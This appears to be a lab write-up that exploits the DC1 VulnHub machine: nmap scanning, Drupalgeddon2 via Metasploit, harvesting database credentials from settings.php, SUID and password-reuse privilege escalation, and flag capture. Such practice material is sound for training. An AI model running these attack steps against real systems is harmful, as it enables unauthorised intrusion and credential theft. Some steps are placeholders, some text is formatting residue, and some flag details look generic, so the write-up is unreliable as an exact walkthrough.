 # Home Hacking Lab: DC1 VulnHub Machine Exploitation

## Description
This section of the home hacking lab project focuses on downloading and exploiting the DC1 VulnHub machine. The primary objective is to practice and enhance cybersecurity skills through hands-on exercises in vulnerability scanning, exploitation, and post-exploitation techniques, culminating in the capture of multiple flags.

## Apps, Languages, & Utilities Used
- **Virtualization Software:** VirtualBox
- **Operating Systems:** Kali Linux, DC1 VulnHub machine
- **Security Tools:** Metasploit, nmap, Hydra, LinPEAS, MySQL
- **Scripting:** Bash

## Environments Used
- **Kali Linux:** Attacker Machine
- **DC1 VulnHub Machine:** Vulnerable VM

## Objective
The objective is to exploit the DC1 VulnHub machine by identifying and capturing flags, thereby gaining practical experience in cybersecurity concepts, tools, and techniques.

## Skills Learned
- Setting up VMs in Oracle VM VirtualBox.
- Performing vulnerability scanning using nmap.
- Exploiting web application vulnerabilities using Metasploit.
- Brute-forcing login credentials using Hydra.
- Capturing and analyzing database credentials.
- Performing privilege escalation and capturing flags on a vulnerable machine.
- Documenting and reporting exploitation techniques.

## Steps Taken

### Download and Setup DC1 VulnHub Machine

#### Download DC1 Machine from VulnHub
- Navigate to VulnHub and search for DC1 or go directly to the [DC1 VulnHub page](https://www.vulnhub.com/entry/dc-1,292/).
- Download the DC1 machine and extract the contents.

#### Import the DC1 Machine into VirtualBox
- Open VirtualBox and go to `File > Import Appliance`.
- Select the extracted DC1 file and follow the prompts to complete the import.

#### Configure Network Settings
- Adjust the network adapter to NAT Network and select the appropriate network.

#### Start the DC1 VM
- Boot up the DC1 VM and ensure it is running properly.

### Exploitation of DC1 VulnHub Machine

#### Flag 1: Initial Enumeration and Exploitation
**Objective:** Identify and capture the first flag by exploiting the web application.

##### Verify DC1 Machine is Running
- Ensure the DC1 machine is up and running by pinging its IP address:
  ```bash
  ping 10.0.200.6

### Information Gathering
- Perform an nmap scan to identify open ports and services:
`bash
nmap -A -sC -oN dc.txt 10.0.200.6`

### Enumerate the Web Application
- Access the web application running on port 80 and identify that it is using Drupal.
- Use Metasploit to find and exploit vulnerabilities in Drupal:
`bash
msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 10.0.200.6
run`

### Capture Initial Flag
- Once you gain a shell, navigate the file system to find the first flag:
`bash
Copy code
find / -name flag1.txt
cat /path/to/flag1.txt`
- Flag 1 Content: "Every good CMS needs a config file."

### Flag 2: Database Enumeration and Exploitation
Objective: Identify and capture the second flag by exploiting the database.

#### Identify Configuration Files
- Use the hint from Flag 1 to locate the Drupal configuration file:
`bash
cat /var/www/html/sites/default/settings.php`

##### Find Database Credentials
- Extract database credentials from the configuration file.

##### Connect to the Database
Use the credentials to connect to the MySQL database:
`bash
mysql -u dbuser -p`

##### Enumerate Database and Capture Flag
- Enumerate the database to find the second flag:
`bash
show databases;
use drupal;
show tables;
select * from flags;`
- Flag 2 Content: "Brute force and directory attacks aren't the only way to gain access."

### Flag 3: Privilege Escalation and System Enumeration
Objective: Identify and capture the third flag by performing privilege escalation.

##### Identify Weak Configurations
Search for files with weak permissions or misconfigurations that could allow privilege escalation:
`bash
find / -perm -4000 -type f 2>/dev/null`

##### Exploit Weakness
Use tools like GTFOBins to escalate privileges:
`bash
/path/to/vulnerable_binary`

##### Capture Third Flag
Once privileges are escalated, navigate the file system to find the third flag:
`bash
find / -name flag3.txt
cat /path/to/flag3.txt`
- Flag 3 Content: "There's more than one way to skin a cat."

### Flag 4: User Enumeration and Exploitation
Objective: Identify and capture the fourth flag by exploiting user credentials.

##### Enumerate Users
List all users on the system and look for interesting files in their home directories:
`bash
cat /etc/passwd
ls /home`

##### Check for Reused Passwords
Try using previously discovered passwords to switch to different users:
`bash
su - username`

##### Capture Fourth Flag
Navigate the user's home directory to find the fourth flag:
`bash
find /home -name flag4.txt
cat /path/to/flag4.txt`
- Flag 4 Content: "You can use the same method to find or access the root flag."

### Final Flag: Root Privilege Escalation
Objective: Identify and capture the final flag by gaining root access.

##### Identify Privilege Escalation Vector
Look for misconfigurations or software vulnerabilities that allow root access.
Use tools like LinPEAS or manual enumeration to identify vectors.

##### Exploit and Gain Root Access
Perform the privilege escalation to gain root access:
`bash
/path/to/exploit`

##### Capture Final Flag
Navigate to the root directory and find the final flag:
`bash
cd /root
cat final_flag.txt`
- Final Flag Content: "Well done! You have completed the DC1 challenge."
